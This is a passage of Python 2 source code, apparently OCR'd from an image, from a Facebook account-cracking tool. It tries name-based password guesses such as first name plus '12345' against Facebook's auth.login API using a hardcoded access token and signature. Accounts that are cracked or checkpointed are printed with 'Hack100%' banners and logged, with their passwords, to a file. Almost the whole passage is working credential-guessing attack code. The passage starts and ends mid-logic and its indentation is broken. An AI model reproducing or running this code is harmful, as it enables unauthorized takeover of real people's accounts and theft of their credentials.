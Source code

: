				                                                           oks.append(user+pass6)
                                                                                   else:
			                                                                   if 'www.facebook.com' in q["error_msg"]:
				                                                               print '\x1b[1;94m[ ❥ ] \x1b[1;94mCheckpoint'
				                                                               print '\x1b[1;94m[•⚔•] \x1b[1;94mName \x1b[1;94m    ✯ \x1b[1;95m' + b['name']
				                                                               print '\x1b[1;94m[•⚔•] \x1b[1;94mID \x1b[1;94m      ✯ \x1b[1;95m' + user
				                                                               print '\x1b[1;94m[•⚔•] \x1b[1;94mPassword \x1b[1;94m✯ \x1b[1;95m' + pass6 + '\n'
				                                                               cek = open("out/super_cp.txt", "a")
				                                                               cek.write("ID:" +user+ " Pw:" +pass6+"\n")
				                                                               cek.close()
				                                                               cekpoint.append(user+pass6)	
						                                           else:							
								                               pass7 = b['first_name']+'12345'						
								                               data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")						
								                               q = json.load(data)						
								                               if 'access_token' in q:		
				                                                                       x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                                                       z = json.loads(x.text)
									                               print '\x1b[1;94m[  ✓  ] \x1b[1;92mHack100%💉'					
									                               print '\x1b[1;94m[•⚔•] \x1b[1;91mName \x1b[1;91m    ✯ \x1b[1;92m' + b['name']					
									                               print '\x1b[1;94m[•⚔•] \x1b[1;91mID \x1b[1;91m      ✯ \x1b[1;92m' + user				
									                               print '\x1b[1;94m[•⚔•] \x1b[1;91mPassword \x1b[1;91m✯ \x1b[1;92m' + pass7 + '\n'					
									                               oks.append(user+pass7)
                                                                                               else:
			                                                                               if 'www.facebook.com' in q["error_msg"]:
				                                                                           print '\x1b[1;94m[ ❥ ] \x1b[1;94mCheckpoint'
				                                                                           print '\x1b[1;94m[•⚔•] \x1b[1;94mName \x1b[1;94m    ✯ \x1b[1;95m' + b['name']
				                                                                           print '\x1b[1;94m[•⚔•] \x1b[1;94mID \x1b[1;94m      ✯ \x1b[1;95m' + user
				                                                                           print '\x1b[1;94m[•⚔•] \x1b[1;94mPassword \x1b[1;94m✯ \x1b[1;95m' + pass7 + '\n'
				                                                                           cek = open("out/super_cp.txt", "a")
				                                                                           cek.write("ID:" +user+ " Pw:" +pass7+"\n")
				                                                                           cek.close()
				                                                                           cekpoint.append(user+pass7)           					
								                                       else:						
										                           pass8 = b['last_name'] + '11223344'											
			                                                                                   data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass8)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                                                                   q = json.load(data)												
			                                                                                   if 'access_token' in q:		
										                                   x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                                                                   z = json.loads(x.text)
				                                                                                   print '\x1b[1;94m[  ✓  ] \x1b[1;92mHack100%💉'											
				                                                                                   print '\x1b[1;94m[•⚔•] \x1b[1;91mName \x1b[1;91m    ✯ \x1b[1;92m' + b['name']											
				                                                                                   print '\x1b[1;94m[•⚔•] \x1b[1;91mID \x1b[1;91m      ✯ \x1b[1;92m' + user										
				                                                                                   print '\x1b[1;94m[•⚔•] \x1b[1;91mPassword \x1b[1;91m✯ \x1b[1;92m' + pass8 + '\n'											
				                                                                                   oks.append(user+pass8)
                                                                                                           else:
			                                                                                           if 'www.facebook.com' in q["error_msg"]:
